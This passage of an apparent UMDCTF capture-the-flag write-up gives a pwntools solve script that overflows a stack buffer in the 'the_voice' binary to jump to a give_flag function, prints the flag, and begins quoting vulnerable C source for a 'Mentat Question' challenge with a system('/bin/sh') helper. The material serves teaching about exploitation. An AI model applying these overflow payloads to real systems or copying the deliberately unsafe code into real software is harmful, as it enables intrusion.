### Solve

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./the_voice_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("challs.umdctf.io", 31192)

    return r


def main():
    r = conn()

    payload = b'15\x00'
    payload += b'A'*21
    payload += p64(10191)
    payload += b'B'*8
    payload += p64(exe.symbols['give_flag'])
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

`UMDCTF{pwn_g3ss3r1t_sk1ll5_d0nt_tak3_a5_many_y3ar5_t0_l3arn_pau1}`

## Mentat Question (pwn)

> Thufir Hawat is ready to answer any and all questions you have. Unless it's
> not about division...

We are thankfully provided the source for this one as well.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <stdint.h>

void secret() {
    system("/bin/sh");
}

uint32_t calculate(uint32_t num1, uint32_t num2) {
    printf("%i\n", num1);
    printf("%i\n", num2);

    char buf[16];

```